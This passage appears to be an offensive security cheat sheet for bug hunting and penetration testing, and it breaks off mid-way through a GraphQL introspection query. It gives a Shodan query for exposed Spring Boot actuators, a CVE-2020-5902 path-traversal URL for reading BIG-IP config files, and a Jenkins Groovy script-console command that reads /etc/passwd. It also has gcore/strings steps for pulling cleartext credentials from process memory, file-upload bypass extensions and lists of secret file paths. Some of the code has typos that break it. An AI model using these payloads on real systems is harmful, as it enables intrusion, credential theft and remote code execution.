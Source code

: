 
### Fetch Actuator from shodan
`org:abc.com http.favicon.hash:116323821`
- use the above query on shodan to find Spring Boot server and the chech for exposed actuators. 
- If /env is available you can possibly acheive RCE. 
- If /heapdump is accessible you may find private keys and tokens.
  
### Read Arbitrary Files
##### CVE-2020-5902
`https://[host]tmui/login.jsp/..;/tmui/localb/workspace/fileRead.jsp?filaName=/config/bigip.licence` ==also== `/config/bigip.confi`

### RCE on Jenkins Instance
##### To Display /etc/passwd
```java
def sout=new StringBuilder(), serr=new() StringBuilder()
def proc='cat /etc/passwd'.execute()
proc.consumeProcessOutput(sout,serr)
proc.waitForOrKill(1000)
println "out>$sout err> $serr"
```
### Got Root shell on a *nix system? Need to move laterally?
1. Find Processess where people might be logged in.Run (ps -A)
2. gcore $PID.
3. strings core.$PID.
4. Read credentials in clear Text. 

### Extension list for File Upload Bugs
```js
ASP ==> .aspx,.config,.ashx,.asmx,.aspq,.axd,.cshtm,.cshtml,.rem,.soap,.vbhtm,.vbhtml,.asa,.asp,.cer,.shtml
```
```js
PHP ==> .php,.php5,php3,.php2,.shtml,.html,.php.png(double extension attack)
```
#### Common Secret file paths
```sh
/.config.php,/.git.config/,////../../data/config/microsrv.cfg,//admin/config.php,/admin/config.php/,/administrator/webconfig.txt.php,/app.config,/audit.config,/Cassini.exe.config,/ccnet.config,/cgi-bin/config.exp,/conceptual.config,/config,/config.inc,/config.inc.php
```

### Common RCE Vulnerable Parameters
```sh
cmd,exec,command,execute,ping,query,jump,code,reg,do,func,arg,option,load,process,step,read,function,req,feature,exe,module,payload,run,print
```
### Found Grapql Endpoint
Send the following query to list the whole schema of the endpoint. it will list all objects and the feilds they have.
```json
{
    __schema
    {
        types{
            name,
            kind,
            description,
            fields
            {
                name,
```